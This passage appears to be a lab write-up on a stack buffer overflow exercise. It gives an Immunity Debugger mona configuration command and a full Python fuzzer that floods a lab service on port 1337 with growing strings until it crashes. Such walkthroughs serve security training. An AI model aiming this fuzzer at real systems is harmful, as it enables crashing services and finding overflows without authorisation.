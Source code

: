 * We notice that it is running on port 1337
* So, why not connect to it from Kali on port 1337?

<figure><img src="../../.gitbook/assets/image (8) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Mona Configuration

Place the following into the debugger window of Immunity:

```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing

* Create a file on Kali called <mark style="color:yellow;">00fuzzer.py</mark> with the following contents:

<pre><code><strong>#!/usr/bin/env python3
</strong>
import socket, time, sys

ip = "10.10.253.98"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
</code></pre>
